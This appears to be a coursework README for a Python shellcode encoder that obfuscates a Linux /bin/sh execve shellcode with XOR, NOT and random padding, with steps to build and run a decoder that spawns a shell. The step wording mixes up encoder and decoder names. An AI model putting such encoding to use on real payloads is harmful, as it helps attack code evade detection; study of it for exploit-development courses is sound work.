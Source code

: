# Assignment 4: Custom Encoder

Custom shellcode encoder which uses NOT, XOR and insertion.

To generate an encoded shellcode payload of your choice, first place the original shellcode into the `shellcode` variable of `custom_encoder.py`:

```python
#!/usr/bin/python3

# Python Custom Shellcode Encoder
# Shellcode is XOR encoded with a key of 0x7 and then NOT encoded
# Next, a random number between 1 and 100 is inserted to pad the shellcode

import random

shellcode = bytearray(b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")
...
```

Next, run `custom_decoder.py`:

```bash
python3 custom_decoder.py
[*] Custom decoder generated. Run ./custom_decoder to execute.
```

Finally, execute custom_encoder. The default payload decodes and runs a /bin/sh payload:

```bash
./custom_decoder
Shellcode Length:  93
#
```

---
